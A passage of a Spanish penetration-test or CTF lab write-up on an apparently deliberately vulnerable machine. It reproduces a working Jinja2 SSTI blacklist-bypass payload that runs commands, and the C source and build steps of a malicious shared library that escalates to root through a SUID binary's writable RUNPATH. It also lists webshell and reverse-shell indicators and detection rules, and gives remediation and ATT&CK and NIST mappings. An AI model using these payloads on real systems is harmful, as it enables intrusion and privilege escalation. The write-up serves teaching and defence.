La lista negra se aplica al texto crudo. Los escapes hexadecimales permiten construir `__globals__`, `__getitem__` y `os` sin incluir un solo guion bajo. El filtro `attr` de Jinja2 equivale a `getattr` y tampoco contiene ninguna palabra prohibida.

Payload utilizado:

```jinja2
{{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")|attr("popen")("id")|attr("read")()}}
```

Descomposición:

| Fragmento | Efecto |
|---|---|
| `lipsum` | Función global disponible en el entorno Jinja2 de Flask |
| `attr("\x5f\x5fglobals\x5f\x5f")` | `getattr(lipsum, "__globals__")` |
| `attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")` | `globals["os"]` |
| `attr("popen")("id")` | `os.popen("id")` |
| `attr("read")()` | Lee la salida del comando |

La petición se envió con `--data-urlencode` para que las llaves, comillas y barras invertidas llegasen correctamente:

```bash
curl -s --get --data-urlencode 'name={{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")|attr("popen")("id")|attr("read")()}}' \
  http://127.0.0.1:8000/report
```

Resultado:

```html
<h1>Industrial Report: uid=1000(industrial_chef) gid=1000(industrial_chef) groups=1000(industrial_chef)
</h1>
```



*Figura 12 — El bypass de la lista negra ejecuta `id` como `industrial_chef`.*

### 7.4 Flag de usuario

Con el mismo payload se leyó el archivo de la flag del usuario del servicio:

```bash
curl -s --get --data-urlencode 'name={{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x6f\x73")|attr("popen")("cat /home/industrial*/user*")|attr("read")()}}' \
  http://127.0.0.1:8000/report | grep -o 'Whoami{[^}]*}'
```

```text
Whoami{REDACTED}
```



*Figura 13 — Flag de usuario obtenida a través de la API interna.*

### 7.5 Revisión del código completo

La figura siguiente muestra el código de `salt_api.py` revisado en el contenedor, incluida la lista negra y la llamada a `render_template_string`:



*Figura 14 — Revisión del código de `salt_api.py`: lista negra y `render_template_string` sobre entrada del usuario.*

| Campo | Valor |
|---|---|
| **CWE** | CWE-1336 (Improper Neutralization of Special Elements Used in a Template Engine) |
| **Severidad** | Alta |
| **CVSS 3.1 estimado** | 7.8 — `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **Evidencia** | Figuras 11, 12, 13 y 14 |

La API solo escucha en loopback, lo que reduce la exposición desde Internet, pero no protege frente a un atacante que ya tiene ejecución local. La lista negra tampoco es una medida de seguridad robusta: cualquier análisis basado en subcadenas puede evadirse con codificaciones alternativas, filtros o alias de funciones.

---

## 8. Hallazgo F-04 — Escalada a root mediante SUID y `RUNPATH` escribible

### 8.1 Enumeración de binarios SUID

La búsqueda de binarios con bit SUID mostró, además de las utilidades estándar de Debian, un ejecutable propio:

```bash
find / -perm -4000 -type f 2>/dev/null
```

```text
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/fryer_audit
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/bin/su
/bin/umount
/bin/mount
```



*Figura 15 — `fryer_audit` destaca como binario SUID no estándar.*

El binario mostraba el siguiente banner al ejecutarse:

```text
[+] FryerForce Industrial Auditor v1.1.0
[+] Loading system check library ...
```

### 8.2 Análisis de dependencias dinámicas

`readelf` reveló la causa del problema:

```bash
readelf -d /usr/bin/fryer_audit | head -8
```

```text
Dynamic section at offset 0x2dd8 contains 28 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libfryer.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000001d (RUNPATH)            Library runpath: [/var/tmp/libs]
 0x000000000000000c (INIT)               0x1000
 0x000000000000000d (FINI)               0x11f4
```



*Figura 16 — El binario busca `libfryer.so` en `/var/tmp/libs`, una ruta controlable por el atacante.*

El binario declara dos dependencias: `libfryer.so` (propia) y `libc.so.6`. Para localizar `libfryer.so`, el *loader* consulta el `RUNPATH` `/var/tmp/libs`. En un binario SUID, `LD_LIBRARY_PATH` se ignora por el modo de ejecución segura, pero `RUNPATH` sí se respeta; si apunta a un directorio escribible, el atacante puede colocar allí una biblioteca con el mismo nombre.

La comprobación de permisos confirmó que `/var/tmp` es escribible por todos y que `/var/tmp/libs` no existía, por lo que podía crearse:

```bash
ls -ld /var/tmp /var/tmp/libs 2>&1
```

```text
ls: cannot access '/var/tmp/libs': No such file or directory
drwxrwxrwt 1 root root 4096 Nov 16 15:20 /var/tmp
```



*Figura 17 — `/var/tmp` tiene permisos 1777 y el subdirectorio `libs` aún no existe.*

### 8.3 Biblioteca maliciosa

Se creó una biblioteca compartida que exporta el símbolo `perform_audit` (para que el binario no falle al resolverlo) y utiliza un constructor para ejecutar código antes de `main()`:

```c
#include <stdlib.h>
#include <unistd.h>

/* Export the symbol the SUID binary expects, so it runs cleanly. */
void perform_audit(void) {
    /* no-op: the constructor does the real work */
}

__attribute__((constructor))
static void pwn(void) {
    setuid(0);
    setgid(0);
    system("cp /bin/bash /tmp/rootbash");
    system("chmod 4755 /tmp/rootbash");
    system("cat /root/root.txt > /tmp/rootflag");
    system("chmod 644 /tmp/rootflag");
}
```



*Figura 18 — Código de `libfryer.c`: constructor con `setuid(0)` y copia de la flag de root.*

El constructor se ejecuta cuando el *loader* carga la biblioteca, es decir, antes de que el programa principal haga nada. Como el binario es SUID root, el constructor hereda los privilegios efectivos de root.

### 8.4 Compilación y ejecución

Se creó el directorio, se compiló la biblioteca y se verificó que quedase en la ruta buscada por el binario:

```bash
rm -rf /var/tmp/libs; mkdir -p /var/tmp/libs
gcc -shared -fPIC -o /var/tmp/libs/libfryer.so /tmp/libfryer.c
ls -la /var/tmp/libs
/usr/bin/fryer_audit
```

```text
-rwxr-xr-x 1 www-data www-data 16128 Nov 16 15:45 libfryer.so
[+] FryerForce Industrial Auditor v1.1.0
[+] Loading system check library ...
```



*Figura 19 — `libfryer.so` compilada y colocada en `/var/tmp/libs`.*

El binario cargó la biblioteca maliciosa y el constructor creó `/tmp/rootbash` (SUID) y `/tmp/rootflag`. La shell resultante se utilizó con `-p` para preservar los privilegios:

```bash
/tmp/rootbash -p /tmp/rootid.sh
```

`rootid.sh` eleva los identificadores reales y muestra la identidad y la flag:

```bash
#!/bin/bash
python3 -c 'import os; os.setuid(0); os.setgid(0); os.system("id; cat /root/root.txt")'
```

```text
uid=0(root) gid=0(root) groups=0(root),33(www-data)
Whoami{REDACTED}
```



*Figura 20 — Confirmación de `uid=0(root)` y captura de la flag final.*

| Campo | Valor |
|---|---|
| **CWE** | CWE-426 (Untrusted Search Path), CWE-427 (Uncontrolled Search Path Element) |
| **Severidad** | Alta |
| **CVSS 3.1 estimado** | 7.8 — `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **Evidencia** | Figuras 15 a 20 |

---

## 9. Hallazgos consolidados

| ID | Hallazgo | CWE | Severidad | CVSS 3.1 | Evidencia |
|---|---|---|---|---|---|
| F-01 | Inclusión local de archivos con filtro de *path traversal* evadible | CWE-22 / CWE-98 | Crítica | 9.8 | Figs. 3–4 |
| F-02 | *Log poisoning* del `access.log` que deriva en RCE | CWE-94 / CWE-117 | Crítica | 9.8 | Figs. 5–6 |
| F-03 | SSTI en la API Flask interna con lista negra evadible | CWE-1336 | Alta | 7.8 | Figs. 11–14 |
| F-04 | Binario SUID con `RUNPATH` en directorio escribible | CWE-426 / CWE-427 | Alta | 7.8 | Figs. 15–20 |
| F-05 | Componentes fuera de soporte (Debian 11 y PHP 7.4) | CWE-1104 | Media | — | Fig. 1 |

**F-05 — Componentes fuera de soporte.** El contenedor ejecuta Debian 11 (bullseye) y PHP 7.4.33. PHP 7.4 alcanzó el final de su vida útil en noviembre de 2022 y el soporte de Debian 11, incluido el periodo LTS, finalizó en agosto de 2026. Aunque no se explotó una vulnerabilidad concreta de estas versiones, la falta de parches incrementa la probabilidad de fallos conocidos y complica la respuesta ante incidentes.

### 9.1 Matriz de riesgo

| Hallazgo | Probabilidad | Impacto | Riesgo |
|---|---|---|---|
| F-01 / F-02 | Alta (remota, sin credenciales) | Alto (RCE) | **Crítico** |
| F-03 | Media (requiere acceso local) | Alto (RCE como otro usuario) | **Alto** |
| F-04 | Media (requiere acceso local) | Alto (root) | **Alto** |
| F-05 | Media | Medio | **Medio** |

---

## 10. Remediación recomendada

### 10.1 Prioridad P0 — inmediata (24–72 h)

1. **Eliminar la inclusión dinámica.** Sustituir `include($_GET['sensor'])` por un mapa de archivos permitidos. La entrada del usuario nunca debe construir una ruta:

```php
<?php
$allowed = [
    'temp_logs.txt'    => __DIR__ . '/logs/temp_logs.txt',
    'pressure_logs.txt'=> __DIR__ . '/logs/pressure_logs.txt',
];

$key = $_GET['sensor'] ?? '';
if (!isset($allowed[$key])) {
    http_response_code(400);
    exit('Sensor no válido');
}

readfile($allowed[$key]);
```

2. **Corregir el *log poisoning* en origen.** No registrar el `User-Agent` en crudo. Utilizar un formato estructurado (por ejemplo, JSON) con escape de comillas, saltos de línea y caracteres de control, y limitar la longitud del campo. Si no se necesita, no registrar el `User-Agent`.

3. **Separar los logs del usuario web.** Mantener `access.log` fuera del alcance de `include`/`readfile` del proceso PHP, con permisos `root:adm 0640` y sin que `www-data` pertenezca a `adm`. Un `open_basedir` que excluya `/var/log` añade una barrera adicional.

4. **Eliminar el SUID o corregir el `RUNPATH`.** La solución más directa es `chmod u-s /usr/bin/fryer_audit` y ejecutar la auditoría mediante un servicio o una regla `sudoers` que autorice solo el comando necesario. Si el SUID es imprescindible, reconstruir el binario con un `RUNPATH` que apunte a un directorio propiedad de root y no escribible, e instalar allí la biblioteca con permisos `0755`:

```bash
install -d -o root -g root -m 0755 /usr/lib/fryer
gcc -o /usr/bin/fryer_audit fryer_audit.c -L/usr/lib/fryer -lfryer \
  -Wl,-rpath,'$ORIGIN/../lib/fryer' -Wl,-z,origin
```

Además, montar `/var/tmp` y `/tmp` con `nosuid,nodev` (y `noexec` si la operación lo permite) y revisar con `readelf -d` cualquier binario SUID antes de desplegarlo.

### 10.2 Prioridad P1 — corto plazo (1–2 semanas)

5. **Sustituir `render_template_string` por plantillas estáticas.** El nombre debe llegar como variable de contexto, nunca como código de plantilla:

```python
from flask import abort, render_template
import re

@app.route("/report")
def report():
    name = request.args.get("name", "General")
    if not re.fullmatch(r"[A-Za-z0-9 _-]{1,40}", name):
        abort(400)
    return render_template("report.html", name=name)
```

```html
<!-- report.html -->
<h1>Industrial Report: {{ name }}</h1>
```

Con `render_template`, el autoescape de Jinja2 trata `{{ ... }}` como texto, no como código. La validación por lista blanca es una defensa adicional, no un sustituto del escape.

6. **Autenticar y aislar la API interna.** Aunque escuche en loopback, cualquier usuario local puede invocarla. Añadir un token o autenticación mutua, limitar el acceso por red y ejecutarla con un usuario dedicado sin acceso a las flags. La flag de usuario no debe estar en el *home* del usuario que ejecuta la API.

7. **Actualizar la plataforma.** Migrar a una versión soportada de Debian y a PHP 8.2 o superior. Revisar las dependencias de Apache y Flask, y establecer un proceso de parcheo mensual.

8. **Endurecer PHP.** Aplicar, como mínimo:

```ini
expose_php = Off
allow_url_include = Off
allow_url_fopen = Off
open_basedir = /var/www/html:/tmp
disable_functions = system,exec,shell_exec,passthru,popen,proc_open,pcntl_exec
```

`disable_functions` no sustituye la corrección del código, pero reduce el impacto de una futura inyección.

### 10.3 Prioridad P2 — medio plazo (30 días)

9. **Principio de mínimo privilegio.** Revisar qué archivos puede leer cada usuario de servicio. Las flags y secretos deben tener permisos `0400` y residir en rutas a las que solo acceda el usuario previsto. El usuario web no debe poder leer logs de auditoría ni archivos de configuración sensibles.

10. **Monitorización y detección.** Crear reglas para:
    - peticiones con `....//`, `php://filter`, `data://` o `expect://` en parámetros;
    - `User-Agent` que contenga `<?php`;
    - ejecución de binarios SUID no estándar;
    - aparición de archivos `.so` en `/tmp` o `/var/tmp`;
    - conexiones salientes a puertos altos desde el servidor web;
    - creación de archivos SUID en directorios temporales.

11. **Auditoría de configuración.** Integrar `readelf -d` en el pipeline de build para detectar `RPATH`/`RUNPATH` en directorios escribibles. Revisar periódicamente los binarios SUID con `find / -perm -4000` y comparar contra una línea base.

12. **Registro y respuesta.** Enviar los logs a un colector central inmutable, con retención y alertas. Un `access.log` local que el usuario web puede leer y que además se puede incluir es a la vez un problema de confidencialidad y de ejecución.

### 10.4 Mapa de remediación

| Hallazgo | Acción principal | Prioridad |
|---|---|---|
| F-01 | Lista blanca de sensores + `readfile` | P0 |
| F-02 | Escape de logs + separación de permisos | P0 |
| F-04 | Quitar SUID o `RUNPATH` seguro | P0 |
| F-03 | `render_template` + validación + auth interna | P1 |
| F-05 | Migración a Debian/PHP soportados | P1 |
| Transversal | Mínimo privilegio y monitorización | P2 |

---

## 11. Mapeo MITRE ATT&CK y NIST

### 11.1 MITRE ATT&CK

| Táctica | Técnica | ID | Evidencia |
|---|---|---|---|
| Reconnaissance | Active Scanning | T1595 | Nmap (Fig. 1) |
| Initial Access | Exploit Public-Facing Application | T1190 | LFI (Figs. 3–4) |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | Reverse shell y SSTI (Figs. 7, 12) |
| Execution | Server Software Component: Web Shell | T1505.003 | PHP inyectado en `access.log` (Figs. 5–6) |
| Discovery | System Information Discovery | T1082 | `id`, `hostname` (Fig. 8) |
| Discovery | System Network Connections Discovery | T1049 | `netstat -tlnp` (Fig. 9) |
| Discovery | File and Directory Discovery | T1083 | `find / -perm -4000` (Fig. 15) |
| Defense Evasion | Obfuscated Files or Information | T1027 | Escapes `\x5f` en el payload SSTI (Fig. 12) |
| Privilege Escalation | Hijack Execution Flow: DLL Side-Loading | T1574.002 | `libfryer.so` en `RUNPATH` (Figs. 16–19) |
| Privilege Escalation | Abuse Elevation Control Mechanism: Setuid and Setgid | T1548.001 | `/tmp/rootbash` SUID (Fig. 20) |
| Collection | Data from Local System | T1005 | Flags de usuario y root (Figs. 13, 20) |
| Command and Control | Non-Application Layer Protocol | T1095 | Reverse shell TCP/4449 (Fig. 7) |

No se estableció persistencia duradera ni se realizaron acciones de *impact* (cifrado, borrado o denegación de servicio). Los artefactos temporales de la prueba se documentan en el Anexo C. La tabla refleja únicamente las técnicas observadas durante la auditoría.

### 11.2 NIST

El laboratorio propone el perfil **OM-ADM-001 (System Administrator)**. Las debilidades encontradas se alinean con los siguientes controles de NIST SP 800-53 Rev. 5:

| Control | Descripción | Aplicación en FRYERFORCE |
|---|---|---|
| **SI-10** | Information Input Validation | LFI en `sensor`, SSTI en `name` |
| **AC-6** | Least Privilege | `www-data` puede leer logs; la API accede a la flag de usuario; SUID con `RUNPATH` escribible |
| **CM-6** | Configuration Settings | `RUNPATH` inseguro, `disable_functions` ausente y `allow_url_include` no restringido |
| **SI-2** | Flaw Remediation | PHP 7.4 y Debian 11 fuera de soporte |
| **AU-2 / AU-9** | Event Logging / Protection of Audit Information | `access.log` legible por el usuario web y susceptible de ser envenenado |
| **SC-7** | Boundary Protection | API interna sin autenticación, confianza implícita en loopback |
| **RA-5** | Vulnerability Monitoring and Scanning | Ausencia de revisión de SUID y de dependencias |
| **SA-15** | Development Process, Standards, and Tools | Uso de `include()` y `render_template_string` con entrada no confiable |

Desde la perspectiva de **NIST CSF 2.0**, el caso evidencia fallos en `ID.RA` (identificación de riesgos), `PR.AA` (control de acceso), `PR.PS` (configuración segura), `DE.CM` (monitorización continua) y `RS.MA` (gestión de incidentes).

---

## 12. Indicadores y artefactos

### 12.1 Indicadores de red

| Indicador | Descripción |
|---|---|
| `GET /?sensor=....//....//....//....//etc/passwd` | Intento de *path traversal* con evasión |
| `GET /?sensor=php://filter/convert.base64-encode/resource=...` | Lectura/exfiltración de archivos vía wrapper PHP |
| `User-Agent: <?php system($_GET[c]); ?>` | Inyección de webshell en el log |
| `GET /?sensor=/var/log/apache2/access.log&c=...` | Ejecución de comandos mediante el log envenenado |
| Conexión `172.17.0.2:39842 → 172.17.0.1:4449` | *Reverse shell* saliente |
| `GET http://127.0.0.1:8000/report?name={{...}}` | Intento de SSTI en la API interna |
| `name` con `\x5f`, `attr`, `lipsum`, `popen` | Ofuscación para evadir la lista negra |

### 12.2 Indicadores de host

| Ruta | Descripción |
|---|---|
| `/var/tmp/libs/libfryer.so` | Biblioteca maliciosa cargada por el SUID |
| `/tmp/libfryer.c` | Código fuente del *payload* |
| `/tmp/rootbash` | Copia SUID de `/bin/bash` |
| `/tmp/rootflag` | Copia de `/root/root.txt` |
| `/tmp/m.sh`, `/tmp/i.sh`, `/tmp/f.sh` | Scripts auxiliares de prueba SSTI |
| `/tmp/rootid.sh` | Helper de elevación y lectura de la flag |

### 12.3 Ejemplo de línea de log envenenada

```text
